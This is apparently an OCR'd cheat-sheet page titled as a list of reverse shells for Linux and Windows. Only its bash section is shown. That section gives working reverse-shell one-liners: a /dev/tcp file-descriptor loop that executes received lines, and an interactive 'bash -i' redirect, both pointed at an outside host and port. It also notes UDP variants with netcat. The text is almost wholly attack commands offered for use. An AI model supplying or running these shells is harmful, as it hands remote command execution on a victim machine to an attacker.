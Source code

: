 # **A list of reverse shells for Linux and Windows**

Bash reverse shell
A bash reverse shell one-liner command using custom file descriptor is as follows (it won't be a tty):

exec 100<>/dev/tcp/192.168.2.6/8080 
cat <&100 | while read line; do $line 2>&100 >&100; done 
Or:

while read line 0<&100; do $line 2>&100 >&100; done 
A bash reverse shell one-liner command using bash's interactive mode is as follows:

bash -i >& /dev/tcp/192.168.2.6/8080 0>&1 
In both cases, you can use /dev/tcp for TCP-based reverse shell and /dev/udp for UDP-based reverse shell. (For a UDP connection, use the -u switch with netcat to get the shell over UDP.)
